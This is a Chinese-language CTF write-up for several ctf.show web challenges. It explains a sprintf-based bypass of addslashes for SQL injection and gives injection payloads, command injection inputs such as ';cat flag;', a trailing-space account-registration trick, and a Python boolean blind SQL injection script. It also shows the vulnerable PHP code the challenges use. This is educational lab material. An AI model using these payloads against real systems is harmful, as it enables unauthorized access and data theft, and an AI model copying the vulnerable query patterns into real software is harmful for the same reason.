



## 给她

### #sprintf()函数绕过sql



扫目录发现git文件泄露，用Githack扒下来有一个hint.php

```python
root@dkhkdmY30sV7Pxs8awAZ:/opt/GitHack# python3 GitHack.py http://9c73dc36-d295-4511-b162-1ce5b1aedad0.challenge.ctf.show/.git/
[+] Download and parse index file ...
[+] hint.php
[OK] hint.php
```

hint.php

```php
<?php
$pass=sprintf("and pass='%s'",addslashes($_GET['pass']));
$sql=sprintf("select * from user where name='%s' $pass",addslashes($_GET['name']));
?>
```

这里的话用addslashes函数对传入的参数进行了一定的字符转义，但是问题是这里对name和pass都使用了这个函数，我们应该怎么去绕过这个反斜杠转义呢？

sprintf()函数就是我们的突破口，毕竟这里就sprintf()函数比较特殊了嘛

先分析一下这个函数的作用

### sprintf()函数

`sprintf()` 函数是 PHP 中用于格式化字符串的一个功能强大的工具。

基础语法

```
sprintf(format, arg1, arg2, arg++)
```

format参数的格式值：

%% - 返回一个百分号 %
%b - 二进制数
%c - ASCII 值对应的字符
%d - 包含正负号的十进制数（负数、0、正数）
%e - 使用小写的科学计数法（例如 1.2e+2）
%E - 使用大写的科学计数法（例如 1.2E+2）
%u - 不包含正负号的十进制数（大于等于 0）
%f - 浮点数（本地设置）
%F - 浮点数（非本地设置）
%g - 较短的 %e 和 %f
%G - 较短的 %E 和 %f
%o - 八进制数
%s - 字符串
%x - 十六进制数（小写字母）
%X - 十六进制数（大写字母）

这里的话就是我们C语言中常规的输出函数printf，第一个参数format就是占位符格式化字符，后面的就是参数列表

为什么这里有漏洞呢


在官方文档中可以关注到`An integer followed by a dollar sign `$`, to specify which number argument to treat in the conversion.`这句话，意思就是一个数字后面跟着一个dollar美元符号`$`可以用来表示此处的占位符负责处理第几个参数，例如`%1$s`表示的就是该占位符处理第一个参数arg1

但是如果format的类型不是规定的格式值，那么就会变为空

所以总结以下两个点:

- **如果 % 符号多于 arg 参数，则我们必须使用占位符。占位符位于 % 符号之后，由数字和 “$” 组成**

- **如果%1$ + 非arg格式类型，程序会无法识别占位符类型，变为空**

所以我们用这个sprintf函数注入的原理就是通过对format的错误类型让函数替换为空，从而让addslashes函数作用失效

如果我们输入"%\\"或者"%1$\\",他会把反斜杠当做格式化字符的类型，然而找不到匹配的项那么"%\\","%1$\\"就因为没有经过任何处理而被替换为空。

那我们来看一下怎么实现这一操作

- 无占位符的情况(`%\`)

```php
<?php
$sql="select * from user where username='%\' and 1=1 #';";
$user='user';
echo sprintf($sql,$user);
?>
//运行结果
select * from user where username='' and 1=1 #';
```

因为这里有百分号所以在sprintf中会被当成是format类型去处理，但是因为`$\`并不是规定的格式类型，所以这里会被替换成空

- 有占位符的情况(`%1$\`)

```php
<?php
$input = addslashes ("%1$' and 1=1#" );
//用addslashes函数进行了处理
$b = sprintf ("AND password='%s'", $input );
//对$input与$b进行了拼接
$sql = sprintf ("SELECT * FROM user WHERE username='%s' $b ", 'admin' );
//$sql = sprintf ("SELECT * FROM user WHERE username='%s' AND password='%1$\' and 1=1#' ", 'admin' );
//这个句子里面的\是由addsashes为了转义单引号而加上的，使用%s与%1$\类匹配admin，由于%\是错误的格式类型，那么admin只会出现在%s里，%1$\则为空
echo  $sql ;
?>
//运行结果
//    SELECT * FROM user WHERE username='admin' AND password='' and 1=1#' 
```

回到题目中，那我们的payload就是

```
?name=admin&pass=1%1$' or 1=1--+
```

然后来到一个伪404网站

在源码中发现flag in /flag字样，尝试读取/flag，发现目录穿越也读不了，抓包看看



解码发现是16进制，转码后是flag.txt,但是访问了并不是flag，在cookie尝试对file参数任意文件读取

将/flag转十六进制，然后发包就拿到flag了



## 签到题

### #system多条命令执行

```php
<?php 
if(isset($_GET['url'])){
        system("curl https://".$_GET['url'].".ctf.show");
}else{
        show_source(__FILE__);
}
 ?>
```

一样的，挂后台扫目录,结果发现有/flag文件，访问下载下来就是flag了。。。应该是一种做法，还有一种做法就是利用system函数的多条命令执行

```
?url=;ls;
?url=;cat flag;
```

- 在 `system()` 中，多条命令可以通过分号 `;`、逻辑运算符 `&&`、`||`、管道 `|` 等方式分隔和执行。

## 假赛生

### #sql查询加空格以假乱真

```php
<?php
session_start();
include('config.php');
if(empty($_SESSION['name'])){
    show_source("index.php");
}else{
    $name=$_SESSION['name'];
    $sql='select pass from user where name="'.$name.'"';
    echo $sql."<br />";
    system('4rfvbgt56yhn.sh');
    $query=mysqli_query($conn,$sql);
    $result=mysqli_fetch_assoc($query);
    if($name==='admin'){
        echo "admin!!!!!"."<br />";
        if(isset($_GET['c'])){
            preg_replace_callback("/\w\W*/",function(){die("not allowed!");},$_GET['c'],1);
            echo $flag;
        }else{
            echo "you not admin";
        }
    }
}
?>
```

还有一个登录界面和一个注册界面，随便注册后页面会显示注册账号传入后的sql语句

分析源代码，应该是要admin账号登陆，并且c绕过正则表达式传参，才会显示flag。

其实绕过c 的正则很简单，正则表达式匹配任何包含至少一个字母数字字符后跟着非字母数字字符的字符串。这里直接传一个非数字字母字符就行问题在于怎么用admin去登录

用admin注册的话会显示无法注册，尝试用admin+空格去绕过，猜测是在SQL中执行字符串处理时，字符串末尾的空格符将会被删除。

用admin+空格注册后登录并传入?c=空字符就可以拿到flag了

## 萌新记忆

### #布尔盲注


扫目录有一个admin路径访问是一个登录口，测试后发现存在用户名枚举，传入admin/1显示密码错误，说明存在admin用户

测试后发现是sql注入，fuzz之后发现大量字符串都过滤了，例如union，select，ascii，用大小写和双写都没绕过去

但是( ) || , substr length这些是没有过滤的，||可以用来绕过or，那就可以打布尔盲注

传入`1' || 'a'<'b`显示密码错误，传入`1' || 'b'<'a`显示用户名/密码错误，说明密码错误是正确回显

但是这里发现有字符长度限制，所以得把空格啥的去掉，不说了直接给payload

```
'||substr(p,{i},1)<'{j}
```

直接上脚本

```python
import requests 

def password_name(url):
    password = ""
    letter = '0123456789abcdefghijklmnopqrstuvwxyz'
    for i in range(1,100):
        for j in letter:
            data={
                "u" : f"'||substr(p,{i},1)<'{j}",
                "p" : "1"
            }
            print(data)
            r = requests.post(url=url,data=data)
            if "密码错误" == r.text:
                password += chr(ord(j)-1)
                sign = 1
                print(password)
                break
    
if __name__=="__main__":
    url = "http://df0c5d39-915c-44cf-ad52-70a1e7fac6a0.challenge.ctf.show/admin/checklogin.php"
    password = password_name(url)
```

然后拿密码去登录admin账户就行了

## 数学及格了

只有一个URL但是访问不出来
